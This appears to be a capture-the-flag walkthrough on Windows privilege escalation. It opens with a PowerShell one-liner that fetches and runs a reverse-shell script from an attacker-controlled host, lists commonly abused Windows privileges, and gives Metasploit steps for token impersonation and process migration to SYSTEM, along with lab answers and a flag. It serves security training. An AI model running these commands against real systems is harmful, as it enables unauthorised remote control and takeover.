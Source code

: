 ```powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port ```
The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:

- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

There's more reading [here](https://www.exploit-db.com/papers/42556).

You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability.

Enter: _load incognito_ to load the incognito module in Metasploit. Please note that you may need to use the _use incognito_ command if the previous command doesn't work. Also, ensure that your Metasploit is up to date.

To check which tokens are available, enter the _list_tokens -g_. We can see that the _BUILTIN\Administrators_ token is available.

Use the _impersonate_token "BUILTIN\Administrators"_ command to impersonate the Administrators' token. What is the output when you run the _getuid_ command?
`NT AUTHORITY\SYSTEM`

Even though you have a higher privileged token, you may not have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do).

Ensure that you migrate to a process with correct permissions (the above question's answer). The safest process to pick is the services.exe process. First, use the _ps_ command to view processes and find the PID of the services.exe process. Migrate to this process using the command _migrate PID-OF-PROCESS_

Read the root.txt file located at `C:\Windows\System32\config`
`dff0f748678f280250f25a45b8046b4a`


